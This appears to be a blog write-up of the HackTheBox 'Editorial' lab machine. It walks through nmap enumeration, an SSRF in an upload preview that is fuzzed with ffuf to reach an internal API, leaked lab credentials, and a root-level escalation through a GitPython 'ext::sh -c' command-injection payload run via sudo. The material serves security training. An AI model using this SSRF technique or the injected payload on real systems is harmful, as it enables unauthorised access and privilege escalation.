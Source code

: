 ```yaml
---
title: "Editorial"
date: 2025-03-16
categories: HTB
tags: ["editorial", "ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


OS: Linux
Difficulty: Easy

# Enumeration

## Nmap

```sh
Nmap scan report for 10.10.11.20
Host is up, received user-set (0.019s latency).
Scanned at 2024-10-06 11:47:55 AEDT for 31s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

## 80-HTTP

### Gobuster

![screenshot](/assets/images/editorial3.png)


### Web

![screenshot](/assets/images/editorial1.png)

http://editorial.htb/upload

![screenshot](/assets/images/editorial2.png)

# Foothold

>- `Preview` button on the `/upload` form is vulnerable to SSRF. 
- Add `http://127.0.0.1/FUZZ` as `bookurl` on the request.
- Fuzz ports using ffuf returns port 5000. 
- Navigate to the URL in the response downloads a file. 
	- contains api information
	- one of them contains credentials
- SSH as dev.

`Preview` button is vulnerable to SSRF.

![screenshot](/assets/images/editorial5.png)

Add `http://127.0.0.1` under bookurl.

Still vulnerable.

![screenshot](/assets/images/editorial6.png)

Save the header as as `req.txt`

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 302
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi7yH97Mb8QNIw8t3
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

## Port Fuzzing

Right click -> Copy to file -> req.txt

![screenshot](/assets/images/editorial9.png)

```sh
ffuf -u http://editorial.htb/upload-cover -X POST -request req.txt -w ports.txt -fs 61
```

![screenshot](/assets/images/editorial10.png)

![screenshot](/assets/images/editorial11.png)

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

![screenshot](/assets/images/editorial15.png)

![screenshot](/assets/images/editorial14.png)

![screenshot](/assets/images/editorial16.png)

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

> Your login credentials for our internal forum and authors site are:
Username: dev\
Password: dev080217_devAPI!@

## SSH as dev

![screenshot](/assets/images/editorial17.png)

# Privilege Escalation

>- `/.git` log contains credentials for `prod`.
- `sudo -l` as prod shows a python script that can be run. 
- `pip3 list` shows installed python packages and versions.
- GitPython 3.1.2.9 has a RCE vulnerability. 

## Enumeration

![screenshot](/assets/images/editorial18.png)

![screenshot](/assets/images/editorial22.png)

```sh
1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906108 -0500     commit: change(api): downgrading prod to dev
```

![screenshot](/assets/images/editorial23.png)

```text
'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

> prod :  080217_Producti0n_2023!@ 

## SSH as prod

![screenshot](/assets/images/editorial24.png)

![screenshot](/assets/images/editorial25.png)

### clone_prod_change.py

![screenshot](/assets/images/editorial26.png)

![screenshot](/assets/images/editorial27.png)

https://github.com/gitpython-developers/GitPython/issues/1515

![screenshot](/assets/images/editorial28.png)

```sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
```

![screenshot](/assets/images/editorial29.png)
